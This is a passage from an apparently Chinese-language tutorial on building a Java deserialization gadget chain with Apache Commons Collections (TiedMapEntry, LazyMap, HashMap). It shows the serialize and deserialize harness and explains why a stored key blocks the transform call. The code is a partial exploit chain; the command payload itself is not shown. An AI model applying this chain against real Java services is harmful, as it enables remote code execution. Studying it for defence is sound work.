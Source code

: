 ```bash


        TiedMapEntry tiedMapEntry = new TiedMapEntry(Lazymap,"aaa");

        HashMap<Object,Object> map2 = new HashMap<>();
        map2.put(tiedMapEntry,"bbb");

        Class c = LazyMap.class;
        Field factoryFied = c.getDeclaredField("factory");
        factoryFied.setAccessible(true);
        factoryFied.set(Lazymap,chainedTransformer);

        serialize(map2);
        unserialize("ser.bin");
    }




    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}
```

#### 问题二：

再进行反序列化我们发现还存在问题，断点调试的时候我们可以发现序列化的时候会进行一步 key 的操作：在序列化的过程中我们可以发现，if 语句是可以进入的，会把`TiedMapEntry tiedMapEntry = new TiedMapEntry(Lazymap,"aaa");`中的 key=“aaa"传入 put，所以这里再进行反序列化的时候会因为存在 key 而进不去 if 语句从而无法调用到我们想要的 factory.transform(key) 方法。

[![](assets/1701612311-2fcec137cc279603ff890c511cbdf4a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235231-1c44e3ca-20cc-1.png)

